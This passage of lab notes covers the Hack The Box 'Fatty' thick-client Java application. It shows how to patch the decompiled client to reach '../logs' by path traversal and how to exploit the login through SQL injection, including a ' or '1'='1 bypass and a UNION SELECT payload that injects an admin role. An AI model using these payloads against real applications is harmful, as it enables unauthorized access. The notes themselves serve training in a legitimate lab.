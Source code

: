           if (this.response.hasError()) {
              return "Error: Your action caused an error on the application server!";
          }
          
          byte[] content = this.response.getContent();
          fos.write(content);
          fos.close();
          
          return "Successfully saved the file to " + desktopPath;
      }
      <SNIP>
      ```

    * we can rebuild the JAR file using the same steps, and log into the app; now if we navigate to FileBrowser > Config, add the JAR file name in the input field and open it, we can download the JAR file
  
  * SQLi:

    * decompile this JAR file using JD-GUI - we can see ```htb/fatty/server/database/FattyDbSession.class``` contains a ```checkLogin()``` function for login functionality

    * the client app uses the ```setUsername()``` and ```setPassword()``` functions during login to send the values to the server - we can check this from ```htb/fatty/shared/resources/user.java```

    * we can see the username is not sanitized, and the password is changed to the below format:

      ```java
      sha256(username+password+"clarabibimakeseverythingsecure")
      ```

    * the ```checkLogin()``` function writes the SQL exception to a log file - to view the syntax error, we need to edit the code in ```fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java```:

      ```java
      ClientGuiTest.this.currentFolder = "../logs";
      try {
        response = ClientGuiTest.this.invoker.showFiles("../logs");
      ```

    * if we attempt a login in the app with a username like ```qtc'``` and then check the logs in 'error-log.txt' file, it confirms SQLi vulnerability

    * we can use a simple payload like ```' or '1'='1``` to bypass the login, but the password comparison step fails

    * we can use UNION queries in SQLi payload, like ```test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin``` for the 'username' field; this way, we can control the password and the assigned role

    * we can modify the code in ```htb/fatty/shared/resources/User.java``` to submit the password as it is from the client app:

      ```java
      public User(int uid, String username, String password, String email, Role role) {
          this.uid = uid;
          this.username = username;
          this.password = password;
          this.email = email;
          this.role = role;
      }
      public void setPassword(String password) {
          this.password = password;
        }
      ```
